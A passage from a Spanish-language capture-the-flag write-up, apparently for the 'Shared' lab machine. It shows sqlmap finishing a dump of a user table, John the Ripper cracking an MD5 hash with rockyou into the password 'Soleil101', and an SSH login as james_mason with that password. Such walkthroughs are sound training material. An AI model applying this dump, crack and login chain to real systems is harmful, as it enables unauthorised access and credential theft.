 ```bash
+----+----------------------------------+-------------+

[13:52:49] [INFO] table 'checkout.`user`' dumped to CSV file '/root/.local/share/sqlmap/output/checkout.shared.htb/dump/checkout/user.csv'
[13:52:49] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/checkout.shared.htb'

[*] ending @ 13:52:49 /2023-06-13/
```

Vamos a crackearlo 

```bash
❯ catn hash
james_mason:fc895d4eddc2fc12f995e18c865cf273

```

Tenemos la contraseña 

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
Soleil101        (james_mason)
1g 0:00:00:00 DONE (2023-06-13 13:54) 6.250g/s 13070Kp/s 13070Kc/s 13070KC/s Sportster1..Sjoerd
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed

```

## Shell as james_mason 

Nos conectamos con **SSH** ala maquina victima **james_mason:Soleil101**

```bash
❯ ssh james_mason@10.10.11.172
The authenticity of host '10.10.11.172 (10.10.11.172)' can't be established.
ECDSA key fingerprint is SHA256:mjIWp2Ggy1NHLY33FSfsXXVTUxbD+W30zEbd7BvHopg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.172' (ECDSA) to the list of known hosts.
james_mason@10.10.11.172's password: 
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4 
james_mason@shared:~$ export TERM=xterm
james_mason@shared:~$ 
```
